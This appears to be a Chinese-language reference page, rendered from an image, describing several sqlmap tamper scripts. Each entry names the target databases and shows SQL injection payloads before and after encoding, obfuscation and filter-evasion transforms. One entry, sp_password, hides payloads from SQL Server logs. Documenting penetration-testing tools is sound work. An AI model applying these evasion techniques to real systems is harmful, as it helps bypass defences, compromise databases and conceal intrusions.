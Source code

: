 #### **space2dash.py**

适用数据库：ALL
作用：将空格替换为`--`，并添加一个随机字符串和换行符
使用脚本前：`tamper('1 AND 9227=9227')`
使用脚本后：`1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227`

#### **space2mssqlblank.py**

适用数据库：Microsoft SQL Server
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005
作用：将空格随机替换为其他空格符号`('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')`
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT%0Eid%0DFROM%07users`

#### **between.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：用`NOT BETWEEN 0 AND #`替换`>`
使用脚本前：`tamper('1 AND A > B--')`
使用脚本后：`1 AND A NOT BETWEEN 0 AND B--`

#### **percentage.py**

适用数据库：ASP
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
作用：在每个字符前添加一个`%`
使用脚本前：`tamper('SELECT FIELD FROM TABLE')`
使用脚本后：`%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E`

#### **sp_password.py**

适用数据库：MSSQL
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password
使用脚本前：`tamper('1 AND 9227=9227-- ')`
使用脚本后：`1 AND 9227=9227-- sp_password`

#### **charencode.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符）
使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`
使用脚本后：`%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45`

#### **randomcase.py**

测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：随机大小写
使用脚本前：`tamper('INSERT')`
使用脚本后：`INseRt`

#### **charunicodeencode.py**

适用数据库：ASP、[http://ASP.NET](https://link.zhihu.com/?target=http%3A//ASP.NET)
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3
作用：适用字符串的unicode编码
使用脚本前：`tamper('SELECT FIELD%20FROM TABLE')`
使用脚本后：`%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045`
